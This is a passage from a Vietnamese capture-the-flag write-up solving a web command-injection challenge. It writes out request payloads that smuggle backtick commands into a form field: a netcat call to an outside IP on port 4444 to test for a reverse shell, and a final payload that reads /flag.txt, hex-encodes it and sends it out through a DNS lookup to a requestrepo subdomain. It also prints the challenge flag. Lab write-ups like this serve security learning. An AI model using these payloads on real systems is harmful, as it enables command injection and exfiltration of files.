 ```
+ Request 1:
script_dir=taidh&script_name=`nc+52.231.78.247+4444`&script_url=file:///etc/hosts&command_log_file=log1

+ Request 2:
script_dir=taidh&script_name=abd&script_url=file:///src/logs/log1.txt&command_log_file=log1

Ở đây mình thay thành file:///src vì thư mục mà app đang chạy ở đây nhé.
```

Nhưng sau khi send thì vẫn không có request đến nc mình đang listen, thử curl hay wget.. cũng không được => mình nghĩ trên server không có `oob` => không thể `reverse shell` => mình quyết định thử `dns`.

### Final payload
Tạo 1 subdomain thông qua [requestrepo](http://requestrepo.com/#/)

Dưới đây là payload đọc luôn flag nhé, các bạn muốn chạy lệnh khác thì thay vào chỗ xargs `cat` và echo -e `\x2fflag.txt`. Mình sài `\x2f` thay cho `/` vì khi đưa `/` vào payload thì server trả về status 500.

Cuối cùng nhớ thay `subdomain`, `script_dir` và `command_log_file` ở request 1 nhé.

```
+ Request 1:
script_dir=taidh27&script_name=`dig+$(echo+-e+"\x2fflag.txt"+|+xargs+cat+|+xxd+-p+-c10000+|+cut+-c1-60).1e2c0c0j.requestrepo.com`&script_url=file:///etc/hosts&command_log_file=file27&submit=Submit

+ Request 2:
script_dir=taidh27&script_name=aaa&script_url=file:///src/logs/file27.txt&command_log_file=file4&submit=Submit
```
![image](https://user-images.githubusercontent.com/54855855/140298470-d64695e7-4ca9-475c-b25c-03adbd28357b.png)

Copy chuỗi hex này, vô [Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=NDY2YzYxNjc3YjQzNmY2ZjZiNjk2NTU3NjE3MjcyNjk2ZjcyNWY1MDZjNjU2MTczNjU1ZjU0Njg2OTZl) để decode và nhận được 1 nửa flag.

Các bạn tiếp tục lại với payload trên và thay `c1-60` thành `c61-100` và thay `script_dir`, `command_log_file` để khỏi bị duplicate và nhận nửa flag còn lại nhé.

Để tham khảo về backticks là gì thì mọi người vô đây đọc nha [Backticks](https://qastack.vn/unix/27428/what-does-backquote-backtick-mean-in-commands)

### Flag
`Flag{CookieWarrior_Please_Think_Out_Of_The_Box}`

## Lời kết
Cảm ơn Cookie Hân Hoan đã tạo sân chơi về security cho các bạn trẻ như em có nơi để luyện tập và học hỏi thêm điều mới. Cũng như cảm ơn đến anh Đoàn Lê Mạnh Tùng đã tạo ra nhiều challenge web hấp dẫn. 
